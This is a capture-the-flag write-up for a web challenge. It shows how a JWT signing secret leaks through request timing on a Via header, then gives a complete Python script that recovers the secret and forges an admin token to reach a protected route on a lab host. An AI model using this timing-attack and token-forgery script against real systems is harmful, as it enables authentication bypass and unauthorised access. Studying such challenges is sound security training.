






## newrule

Access the web page and find that an account password is displayed.



The scan path found `/www`, `/login`, and `/admin` routes. Use the account password above to log in to `/login` and obtain JWT.



Upon accessing `/admin`, a "permission denied" message appears.




Next, return to `/www`, access prompts require the Via header to be carried in the request, here it has been tested



A side-channel attack is found that can leak JWT SECRET.



Write a script to attack, calculate the JWT TOKEN, and then automatically forge it to `/admin` for login access.

```python
import requests
import string
import time
import jwt
import sys
TARGET_URL = "http://192.168.50.107:9696"
ORACLE_ENDPOINT = "/www"
FLAG_ENDPOINT = "/admin"
CHARSET = string.ascii_letters + string.digits + "!@#$%"
SECRET_LENGTH = 16
# Appropriately adjust here
THRESHOLD = 0.035
VERIFY_SAMPLES = 4
session = requests.Session()
def get_clean_time(guess, samples=3):
    times = []
    headers = {"Via": guess}
    for _ in range(samples):
        t0 = time.time()
        try:
            session.get(f"{TARGET_URL}{ORACLE_ENDPOINT}", headers=headers)
        except:
            pass
        times.append(time.time() - t0)
    return min(times)
def exploit():
    known_secret = ""
    while len(known_secret) < SECRET_LENGTH:
        baseline_time = get_clean_time(known_secret + "`", 3)
        target_threshold = baseline_time + THRESHOLD
        found = False
        for char in CHARSET:
            payload = known_secret + char
            t = get_clean_time(payload, 1)
            if t < target_threshold:
                continue
            verified_time = get_clean_time(payload, VERIFY_SAMPLES)
            if verified_time > target_threshold:
                known_secret += char
                print(f"{known_secret} {verified_time*1000:.2f}ms")
                found = True
                break
        if not found:
            continue
    return known_secret
def get_flag(secret):
    token = jwt.encode({"username": "admin", "role": "admin"}, secret, algorithm="HS256")
    try:
        r = session.get(f"{TARGET_URL}{FLAG_ENDPOINT}", headers={"Authorization": f"Bearer {token}"})
        print(f"\n{r.text}")
    except Exception as e:
        print(e)
secret = exploit()
get_flag(secret)
```

After running, the flag appears.



